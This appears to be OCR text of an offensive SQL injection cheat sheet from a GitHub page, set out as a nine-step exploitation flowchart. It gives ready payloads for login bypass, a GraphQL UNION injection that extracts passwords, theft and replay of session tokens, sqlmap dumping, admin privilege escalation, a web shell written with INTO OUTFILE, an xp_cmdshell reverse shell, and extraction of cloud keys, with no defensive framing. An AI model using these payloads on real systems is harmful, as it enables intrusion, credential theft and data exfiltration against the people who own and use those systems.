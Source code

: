 **GraphQL/API Endpoint Pivot Found an internal API?**
Abuse SQLi in it: 
    query { user(id: "1' UNION SELECT password FROM users--") { id } }

**Steal session/Auth Tokens**
        SELECT token, ip FROM sessions; 
    or: 
        SELECT cookie FROM analytics_logs; 
    then Replay: 
        Cookie: session=stolen_token

***SQLi Exploitation Flow (Textual Flowchart)***
[1] Entry Point Discovery
  └─► Scan input vectors (forms, URLs, headers, cookies, GraphQL)
  └─► Check for injectable parameters (manual or with tools like sqlmap, Burp)

[2] Initial SQL Injection
  └─► Test for authentication bypass or query manipulation
  └─► Bypass login with ' OR '1'='1
  └─► Trigger DB errors or anomalies (timing, boolean)

[3] DBMS Fingerprinting
  └─► Extract database type/version
  └─► SELECT @@version / version()
  └─► sqlmap --banner

[4] Table & Column Enumeration
  └─► Find structure of DB
  └─► sqlmap --tables / --columns
  └─► Manually with UNION SELECT or information_schema

[5] Data Exfiltration
  └─► Dump sensitive data (users, passwords, tokens, emails)
  └─► sqlmap --dump
  └─► UNION SELECT username, password FROM users
  └─► Blind SQLi (boolean/time-based inference)

[6] Privilege Escalation
  └─► Modify user roles or inject new admin
  └─► UPDATE users SET is_admin=1 WHERE username='guest'
  └─► INSERT INTO users (...) VALUES (...)

[7] Remote Code Execution (RCE)
  └─► Write to file or abuse DB functions
  └─► MySQL: SELECT "" INTO OUTFILE '/var/www/html/shell.php'
  └─► MSSQL: xp_cmdshell 'powershell reverse shell'

[8] Lateral Movement
  └─► Access other services using stolen credentials
  └─► SSH, SMB, admin panels, internal APIs
  └─► Pivot to other DBs or machines

[9] Cloud & Infra Pivoting
  └─► Exfiltrate API keys (AWS, GCP, Azure) or secrets
  └─► SELECT * FROM env WHERE key LIKE '%key%'
  └─► Access cloud storage (S3, buckets, RDS)
  └─► Exploit misconfigured services (Redis, Jenkins, Docker)
